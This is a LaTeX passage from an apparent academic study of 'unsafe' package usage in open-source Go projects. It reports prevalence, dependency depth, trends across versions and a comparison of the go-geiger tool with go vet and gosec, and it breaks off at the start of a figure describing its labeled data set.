The data set contains \uniqueUnsafeFindings{} unique \unsafe{} usages.
All data files as well as the data acquisition scripts used to download the projects and run the analysis tools are
available in a data repository on \github{}\footnote{\url{https://github.com/stg-tud/unsafe_go_study_results}}.
Additionally, the data repository\footnote{\url{https://zenodo.org/record/4130780}} and the raw projects source
code\footnote{\url{https://zenodo.org/record/4001728}} are published on \zenodo{}.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{\textit{Unsafe} Usages in Projects and Dependencies (\ref{rq:prevalApp},~\ref{rq:depsDepth},~\ref{rq:distTypes})}\label{subsec:go-geiger:evaluation:unsafe-usage}

To attribute \unsafe{} usages to either a project or one of its dependencies, the root module of the project is used.
Since the data set was constructed such that all projects support the Go module system as described in the previous
section, there is a top-level \textit{go.mod} file present for each of them.
The module specified in that file is stored as the project root.
Packages that are part of this module are (first-party) project code.
Other packages that are present in the dependency tree, but not in the root module, are (third-party) dependencies.

By looking at \unsafe{} findings that are part of first-party packages, it is possible to determine how many projects
directly use \unsafe{} in their code.
The data shows that this is the case for \unsafeProjects{} (\percentageUnsafeProjects{}) of the \projsAnalyzed{}
projects.
However, this does not take the dependencies into account.
With respect to these, \unsafeTransitiveWithDependencies{} (\percentageUnsafeTransitiveWithDependencies{}) of the
projects transitively import \unsafe{} usages.
To calculate this percentage, the complete dependency trees of the projects are integrated into the analysis.
This results in \packagesAnalyzed{} unique packages, \unsafePackages{} (\percentageUnsafePackages{}) of which contain at
least one \unsafe{} usage.
This answers research question~\ref{rq:prevalApp} about the prevalence of \unsafe{} in Go projects.

The fraction of projects importing \unsafe{} in the previous paragraph does not include the Go standard library.
All analyzed projects import this library and it contains \unsafe{} usages, which means that with it \checkNum{100\%} of
the projects would transitively use \unsafe{}.
Because the standard library is developed by the Go core team, it can be assumed that it is well audited and reasonably
safe to use.
Since there is no way to exclude it from a project anyways, the analysis presented in this study is more meaningful
when the standard library is not causing a project to be counted as using \unsafe{}.

\begin{answerToRQ}[\ref{rq:prevalApp}]
    About \percentageUnsafeProjectsRounded{} of projects contain \unsafe{} usages in their first-party code.
    Approximately \percentageUnsafeTransitiveWithDependenciesRounded{} of projects transitively import at least one
    third-party dependency package with \unsafe{} usages.
\end{answerToRQ}

To answer research question~\ref{rq:depsDepth} about how deep in the dependency tree packages using \unsafe{} are
usually located, the import depth of all packages used by a project is determined.
Import depth denotes the minimum depth of a package in the dependency tree of a particular project, which is the
shortest path from the project root module to the package.
Thus, all packages included in the root module have an import depth of \checkNum{zero}.
Packages which are imported by those have a depth of \checkNum{one}, and so on.
The depth is calculated using breadth-first search on the dependency tree, which saves time when packages are imported
multiple times, because the analysis is focused on the minimum.
Figure~\ref{fig:unsafe-import-depth} presents a heat map plot of the number of packages containing \unsafe{} usages by
their import depth.
The y-axis denotes the depth, the color intensity shows the number of packages using \unsafe{} at a given depth, and the
x-axis represents the \projsAnalyzed{} analyzed projects.
On the left hand side, next to the heat map, the horizontal bar chart visualizes the total number of packages using
\unsafe{} at each import depth summed up over all projects.

\begin{figure*}[!t]
    \vspace{2mm}
    \centering
    %\includegraphics[width=\textwidth]{gfx/figures/unsafe-import-depth.pdf}
    \includegraphics[width=.9\textwidth]{gfx/figures/unsafe-import-depth.pdf}
    \caption{Import Depth of Unsafe Packages. Unsafe packages are around a depth of \averageUnsafeImportDepth{} (sd=\stdUnsafeImportDepth{})}
    \label{fig:unsafe-import-depth}
    %\vspace{-10pt}
\end{figure*}


Figure~\ref{fig:unsafe-import-depth} shows that most packages containing \unsafe{} usages are imported fairly early,
however not directly at the first level.
The average depth is \averageUnsafeImportDepth{} with a standard deviation of \stdUnsafeImportDepth{}.
The general import depth of all packages, whether they contain \unsafe{} or not, is only slightly lower at
\averageGeneralImportDepth{}.
While the depth numbers are fairly low, the total count of imported packages at each level of import depth increases
exponentially.
Thus, while being possible, it is hard for developers to manually audit dependency packages for \unsafe{} usages.
The novel \toolGeiger{} tool helps by quickly identifying the packages containing \unsafe{}, therefore, it is possible
to conduct a focused review of the \unsafe{} code.
Only the first level of dependencies contains the packages that the project developers added themselves, thus, they are
obvious to them.
In the data set, \levelOneImportedUnsafePackagesCount{} (\levelOneImportedUnsafePackagesShare{}) of the
\unsafePackages{} packages containing \unsafe{} are imported at level one of the dependency tree, and
\levelZeroImportedUnsafePackagesCount{} (\levelZeroImportedUnsafePackagesShare{}) are not imported (level zero).
This further shows that the majority of \unsafe{} code is introduced further down in the dependency tree.

\begin{answerToRQ}[\ref{rq:depsDepth}]
    Most imported packages with at least one \unsafe{} usage are located around an average depth of
    \averageUnsafeImportDepthRounded{} in the dependency tree.
\end{answerToRQ}

Research question~\ref{rq:distTypes} is about which \unsafe{} tokens are used the most.
As described in Section~\ref{sec:go-geiger:design}, \toolGeiger{} identifies usages of the four members of the \unsafe{}
package, the \textit{reflect.SliceHeader} and \textit{reflect.StringHeader} types, and \textit{uintptr}.
Figure~\ref{fig:unsafe-tokens-distribution} shows the distribution of these \unsafe{} types in the data set of Go
projects.

\begin{figure}[!t]
    \centering
    
\includegraphics[width=0.43\textwidth]{assets/plots/distribution-unsafe-types.pdf}
    \caption{Distribution of different types of unsafe tokens}
    \label{fig:unsafe-tokens-distribution}
\end{figure}

The data shows that \textit{uintptr} is the most common \unsafe{} token, with \checkNum{99,741} findings.
Next, \textit{unsafe.Pointer} has a similarly high prevalence of \checkNum{94,431} samples.
These two lead the usage counts by far, with the next being \textit{unsafe.Sizeof} at only \checkNum{3,667} usages, and
all other token types found less than \checkNum{1,000} times.
With a mere \checkNum{8} usages found, \textit{unsafe.Alignof} is the most rare.

\begin{answerToRQ}[\ref{rq:distTypes}]
    In the wild, \textit{uintptr} and \textit{unsafe.Pointer} are orders of magnitude more common than other \unsafe{}
    usages.
\end{answerToRQ}


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Influence of Age and Popularity (\ref{rq:popularity})}\label{subsec:go-geiger:evaluation:popularity}

This subsection answers research question~\ref{rq:popularity} about whether there is a correlation between \unsafe{}
usage and the common project metrics age and popularity.
Popularity is measured by the number of stars and number of forks that a project has on \github{}.
Figure~\ref{fig:correlation-popularity} presents a scatter plot showing the number of \unsafe{} usages on the x-axis and
the project metrics stars, forks, and age on the y-axis.
Usages that are part of the Go standard library are not counted in this graph.
Each data point represents one project.
Blue circles indicate a project's number of stars, orange diamonds show the number of forks, and green crosses denote
the age.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    \includegraphics[width=\textwidth]{assets/plots/chapter4/unsafe-import-depth.pdf}
    \caption{TODO: Correlation between \unsafe{} usage and project metrics age and popularity}
    \label{fig:correlation-popularity}
    %\vspace{-10pt}
\end{figure}


The plot shows spikes at \checkNum{0} and between \checkNum{1,000--2,000} usages of \unsafe{}.
Otherwise, the plot shows a rather uniform distribution between \unsafe{} usages and the different project metrics,
except for a gap between a \checkNum{few hundred} and \checkNum{1,000} usages of \unsafe{}.
There are both many projects with fewer and with more usages, but none with about \checkNum{750}.
This could be an indicator that once projects have included at least a couple of \unsafe{} usages, they tend to have
a lot of them rather easily.
There is no obvious correlation between neither \unsafe{} usage and project age, nor number of stars or forks.

\begin{answerToRQ}[\ref{rq:popularity}]
    There is no significant correlation between the number of \unsafe{} usages and a project's age, number of stars, or
    number of forks.
\end{answerToRQ}


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Change of \textit{Unsafe} Usage over Time (\ref{rq:changeTime})}\label{subsec:go-geiger:evaluation:over-time}

The data set collected in this study contains one version of each analyzed project.
It is not directly possible to measure the change of \unsafe{} usage in projects over time with the data available.
However, there are a number of modules that are included in several versions by different projects, which means that
these modules allow such an analysis of changes in \unsafe{} usage.
To answer research question~\ref{rq:changeTime}, this subsection discusses the differences between different versions of
four selected modules.
These modules are \textit{golang.org/x/sys}, \textit{github.com/golang/protobuf}, \textit{github.com/docker/docker}, and
\textit{k8s.io/apimachinery}.

\begin{figure}[ht!]
    \centering

    \begin{subfigure}[t]{0.475\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{assets/plots/chapter4/unsafe-over-time-sys.pdf}
        \caption{\textit{golang.org/x/sys}}
        \label{subfig:change-over-time:sys}
    \end{subfigure}
    \hfill
    \begin{subfigure}[t]{0.475\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{assets/plots/chapter4/unsafe-over-time-protobuf.pdf}
        \caption{\textit{github.com/golang/protobuf}}
        \label{subfig:change-over-time:protobuf}
    \end{subfigure}
    \vskip\baselineskip
    \begin{subfigure}[t]{0.475\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{assets/plots/chapter4/unsafe-over-time-docker.pdf}
        \caption{\textit{github.com/docker/docker}}
        \label{subfig:change-over-time:docker}
    \end{subfigure}
    \hfill
    \begin{subfigure}[t]{0.475\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{assets/plots/chapter4/unsafe-over-time-apimachinery.pdf}
        \caption{\textit{k8s.io/apimachinery}}
        \label{subfig:change-over-time:apimachinery}
    \end{subfigure}

    \caption[Change of \unsafe{} usage in selected packages over time]
        {Change of \unsafe{} usage in selected packages over time.\newline~Note different scaling on y axes.}
    \label{fig:change-over-time}
\end{figure}


Figure~\ref{fig:unsafe-over-time} shows the number of \unsafe{} usages contained in these modules by their respective
versions in blue, ascending over time.
Furthermore, the number of lines of code (\acrshort{LOC}) is plotted in gray to show possible correlations with changes
in module size.
It is important to note that the y axes in Figure~\ref{fig:unsafe-over-time} are scaled differently.
This is because the purpose of that figure is not to compare the modules against each other, but to see changes in their
usage of \unsafe{} over time.

Depending on the specific module, there are different conclusions.
For the \textit{golang.org/x/sys} module (Figure~\ref{subfig:unsafe-over-time:sys}), it is evident that there is a
monotonous increase both in \unsafe{} usage and \acrshort{LOC}.
The number of \unsafe{} usages increases from \sysModuleLeastUnsafe{} to \sysModuleMostUnsafe{}
(\sysModuleUnsafeIncrease) over the period shown in the figure, which is from \checkNum{late 2017} to
\checkNum{May 2020} (\checkNum{2.5 years}).
A manual analysis of the changes in the module source code shows that the increased usage of \unsafe{} in this case is
caused by additional system call \acrshort{API}s that are supported by the module.
Dispatching to the underlying system call code requires the use of \textit{unsafe.Pointer}.
Therefore, in this case more features provided by a dependency cause more \unsafe{} code to be imported into a project.

In the \textit{github.com/golang/protobuf} module (Figure~\ref{subfig:unsafe-over-time:protobuf}), there is initially a
steep increase in \unsafe{} usage, although the module size (\acrshort{LOC}) is decreasing.
Then, the number stays fairly constant until it drops to zero.
Thus, the module does not use \unsafe{} any longer, while the \acrshort{LOC} are increasing again.
It can be concluded that the module developers have replaced \unsafe{} with alternative, safe features of Go.

The \textit{github.com/docker/docker} module (Figure~\ref{subfig:unsafe-over-time:docker}) shows fluctuations in the use
of \unsafe{}, which are somewhat correlated to the module size (\acrshort{LOC}).
However, there is a big spike in \unsafe{} usage which is not reflected in the \acrshort{LOC} at all.
Also, the number of \unsafe{} usages overall is fairly low in this module.
The last module, \textit{k8s.io/apimachinery} (Figure~\ref{subfig:unsafe-over-time:apimachinery}), is similar.
Its \unsafe{} usage also has a limited correlation to the \acrshort{LOC}, but contains deviations.
Here, \unsafe{} has become more used in the module over time.
Still, it is only a very small fraction of the module size, which has almost \checkNum{50,000} \acrshort{LOC}.

In conclusion, the usage of \unsafe{} changes between different versions of the same module.
Therefore, it is important for developers to consider this when updating dependencies.
Furthermore, security analyses must be done for each version of a module.
It is not sufficient to determine that \unsafe{} usages do not enable vulnerabilities once, instead it must be checked
for the specific version that is imported into an application.

\begin{answerToRQ}[\ref{rq:changeTime}]
    Changes in \unsafe{} usage in particular modules are motivated, for example, by new \acrshort{API} requirements and
    can be significant, with about a \sysModuleUnsafeIncreaseRounded{} increase over \checkNum{2.5} years found in the
    \textit{sys} module.
    Since there is ongoing fluctuation in the usage of \unsafe{} over time for specific modules, security analyses must
    be done for each version individually.
\end{answerToRQ}


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Comparison with Existing Tools (\ref{rq:linterComparison})}\label{subsec:go-geiger:evaluation:linters-comparison}

To evaluate the benefit \toolGeiger{} provides in comparison to existing static analysis tools for Go, its findings are
put in context with the results of \toolVet{} and \toolGosec{} in this section.
The goal of this comparison is to see whether any of those tools can achieve the same as \toolGeiger{} does.
As described in Section~\ref{sec:background:static-code-analysis}, \toolVet{} is a linter that is included as part of
the standard Go command line tool chain.
It runs a number of analysis passes to identify general problems with the source code.
There is the \textit{unsafeptr} pass, which is designed to find potential misuses of the \textit{unsafe.Pointer} type.
It is however not designed for a general identification of \unsafe{} usages.
On the other hand, \toolGosec{} is a static analysis tool with a design focused around security problems.
It is built from several rules to identify issues, one of which (\textit{\checkNum{G103}}) is simply triggered by the
presence of \unsafe{} package members and generates a warning that those usages should be audited.
Given this design, it is closer to \toolGeiger{} in the sense that it only identifies the presence of \unsafe{} without
using any logic to determine potential misuses.

To conduct the comparison, \toolVet{} and \toolGosec{} are run on the same \packagesAnalyzed{} packages that were
analyzed with \toolGeiger{}.
The results are part of the data set as well.
Then, the findings of the tools are matched using package name, file name, and line number information.
Table~\ref{tbl:go-geiger-evaluation-linters} shows the results of this analysis.
The result columns are divided to show the different results for \toolVet{} and \toolGosec{}.
The \textit{both} column contains the number of lines of code that were both flagged by \toolGeiger{} and the respective
linter tool.
Lines that were only flagged by \toolGeiger{}, but not by the linter, are shown in the following column.
The last column indicates \acrshort{LOC} that the linter flagged, but were not identified by \toolGeiger{}.
The table contains two rows that show the number of lines of code, both when counting any message that \toolVet{} or
\toolGosec{} produced, and when only messages related to their \unsafe{} analyses are taken into account.
The latter has more impact, because comparing only those messages to the output of \toolGeiger{}, which is solely
designed around \unsafe{} usages, achieves a fairer evaluation.

\begin{table}[htp!]
    \centering
    \caption{Comparison of the performances of \toolGeiger{} and other linters}
    \label{tbl:go-geiger-evaluation-linters}
    \begin{tabular}{l|rr|rr|rr}
        \textbf{Scenario} & \multicolumn{2}{c|}{\textbf{TP (both)}} & \multicolumn{2}{c|}{\textbf{FN (only \toolGeiger{})}} & \multicolumn{2}{c}{\textbf{FP (only linter)}} \\
        {}                & go vet    & gosec              & go vet          & gosec                      & go vet      & gosec                  \\
        \hline
        Any message       & 219       & 36,279             & 76,738          & 40,678                     &  31,224     & 114,306                \\
        Related message   & 213       & 26,267             & 76,744          & 18,019                     &       0     & 0                      \\
    \end{tabular}
\end{table}

The results show that there is only a very small number of \acrshort{LOC} that \toolVet{} and \toolGeiger{} found both,
but many which were identified only by \toolGeiger{}.
This means that for most of the \unsafe{} usages, \toolVet{} does not generate a warning.
When comparing any message generated by \toolVet{}, there are many findings that \toolGeiger{} does not include, however
those do not exist anymore when the analysis is restricted to \toolVet{} messages related to \unsafe{}.
While \toolVet{} provides a lot of warnings that are related to other problems, it does not offer any benefit over
\toolGeiger{} for the specific task of identifying \unsafe{} usages.
For \toolGosec{}, there are a lot more \acrshort{LOC} in the \textit{both} column, but still a lot of the \toolGeiger{}
findings are missed.
About \checkNum{half} of the \toolGeiger{} results are also found by \toolGosec{}.
This is much better than \toolVet{}, but it is still not accurate.
One reason for this is that \toolGeiger{} identifies not only \textit{unsafe} package usages, but also \textit{uintptr},
which is common as described in Section~\ref{subsec:go-geiger:evaluation:unsafe-usage}.
It is worth noting that the numbers in Table~\ref{tbl:go-geiger-evaluation-linters} refer to lines of code rather than
\unsafe{} findings, but one line of code can contain several \unsafe{} usages.
Therefore the numbers do not add up to the same count of total findings discussed in
Section~\ref{subsec:go-geiger:evaluation:unsafe-usage}.

\begin{answerToRQ}[\ref{rq:linterComparison}]
    The existing tools \toolVet{} and \toolGosec{} do not provide any benefit over \toolGeiger{} for the specific task
    it is designed for.
    Instead, \toolGeiger{} finds all and more of their \unsafe{}-related results.
\end{answerToRQ}


%% ---------------------------------------------------------------------------------------------------------------------

\section{Qualitative Evaluation}\label{sec:go-geiger:qualitative-evaluation}

This section presents an in-depth, qualitative study of the purpose of \unsafe{} usages in
\projsForLabeledCodeSnippets{} selected open-source Go projects.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Labeled Data Set of \textit{Unsafe} Usages}\label{subsec:go-geiger:qualitative-evaluation:labeled-dataset}

To study the purpose of \unsafe{} in applications, a manually labeled data set of \numberLabeledCodeSnippets{} code
samples is presented as a contribution of this thesis.
It is available online in the same data repository\footnote{\url{https://github.com/stg-tud/unsafe_go_study_results}} as
the study results presented in the previous section.
The size of this data set was chosen to both allow manual labeling in a reasonable time frame, and provide a good
insight into what operations are done in practice using the \unsafe{} \acrshort{API}, and for what purpose.
Each sample is labeled in two dimensions by the operation type and its higher-level objective.
The \numberLabeledCodeSnippets{} code samples are drawn from the projects listed in Table~\ref{tbl:dataset-projects}.
They are a subset of the projects used for the empirical study and marked by an asterisk (*) in the appendix
(Table~\ref{tbl:projects}).
These projects were selected based on their high number of \unsafe{} usages, and it was taken care of a reasonably large
diversity in their domains of application.
They contain applications based around virtualization, infrastructure as a service, data storage, and machine learning.

\begin{table}[!t]
\vspace{2mm}

    \centering
    \caption{Projects selected for labeled data set}
    \label{tbl:dataset-projects}
    \begin{adjustbox}{max width=\textwidth}
    \begin{tabular}{llrrl}
        %\hline
        {} & \textbf{Name} &  \textbf{Stars} &  \textbf{Forks} &    \textbf{Revision} \\ \hline
        \rowcolor{verylightgray}
        1  &         kubernetes/kubernetes &  66,512 &  23,806 &  \texttt{fb9e1946b0} \\
        2  &                 elastic/beats &   8,852 &   3,207 &  \texttt{df6f2169c5} \\
        \rowcolor{verylightgray}
        3  &             gorgonia/gorgonia &   3,373 &    301 &  \texttt{5fb5944d4a} \\
        4  &              weaveworks/scope &   4,354 &    554 &  \texttt{bf90d56f0c} \\
        \rowcolor{verylightgray}
        5  &  mattermost/mattermost-server &  18,277 &   4,157 &  \texttt{e83cc7357c} \\
        6  &               rancher/rancher &  14,344 &   1,758 &  \texttt{56a464049e} \\
        \rowcolor{verylightgray}
        7  &                 cilium/cilium &   5,501 &    626 &  \texttt{9b0ae85b5f} \\
        8  &                     rook/rook &   7,208 &   1,472 &  \texttt{ff90fa7098} \\
        \rowcolor{verylightgray}
        9  &             containers/libpod &   4,549 &    539 &  \texttt{e8818ced80} \\
        10 &                       xo/usql &   5,871 &    195 &  \texttt{bdff722f7b} \\ %\hline
    \end{tabular}
    \end{adjustbox}
    %% reduce space after table for vspace tweaking
    \vspace{-10pt}
\end{table}

The samples are divided into \numberLabeledCodeSnippetsStd{} samples that are part of the standard library
(\textit{std}), and \numberLabeledCodeSnippetsApp{} non-standard-library application samples (\textit{app}).
This decision is based on the results presented in Section~\ref{subsec:go-geiger:evaluation:unsafe-usage}, which show
that all projects must use the standard library, as well as the hypothesis that the standard library uses different
\unsafe{} patterns.
Standard library is defined as the packages that live in the Go \textit{std} and the \textit{golang.org/x/sys} module.
The \textit{sys} module is included because it contains a lot of system call infrastructure and is the replacement for
the deprecated \textit{syscall} package\footnote{\url{https://golang.org/pkg/syscall}}, which is part of the standard
library.
Thus, it is also maintained by the core Go development team.
Application code samples are taken from packages that are not part of the standard library.
The \numberLabeledCodeSnippets{} code examples were sampled randomly from all packages present in the dependency trees
of the projects shown in Table~\ref{tbl:dataset-projects}.
However, they are taken without duplicating lines that are present in different versions of the same module.
If a module is included in multiple versions, a line of code within it can not be drawn twice from different versions.
Furthermore, this labeled data set contains only usages of \textit{unsafe.Pointer}.
The goal of this is to allow a better comparison between usage purposes, without distortions from different \unsafe{}
token types such as \textit{Alignof} or \textit{Offsetof}.

The classes are outlined briefly in the following.
For the \unsafe{} operation type dimension, Figure~\ref{fig:usage-labels} shows code examples for each of the classes.
The most common ones are conversions between types.
The \textit{cast-basic}, \textit{cast-bytes}, \textit{cast-struct}, \textit{cast-header}, and \textit{cast-pointer}
classes represent conversions between arbitrary types, where one of them is a basic type such as \textit{int}, a
\textit{[]byte} slice, a slice or string header structure, an actual \textit{unsafe.Pointer}, or a structure,
respectively.
\textit{Pointer-arithmetic} is a class containing any form of arithmetic address manipulation such as advancing an
array.
When \unsafe{} is only required to pass values along to another function that expects a parameter of type
\textit{unsafe.Pointer}, the \textit{delegate} label is applied.
Thus, for this class the need for \unsafe{} is at a different location in the code.
The \textit{memory-access} class is used where \textit{unsafe.Pointer} values are dereferenced, used to manipulate
corresponding memory, or for comparison with another address.
\textit{Syscall} represents calls using the Go \textit{syscall} package or \textit{golang.org/x/sys} module.
The \textit{definition} class denotes usages where a field or method of type \textit{unsafe.Pointer} is declared for
later usage.
Finally, \textit{unused} contains instances of \unsafe{} that are not actually used in the analyzed code, such as dead
code or unused parameters.

\begin{figure}[ht!]
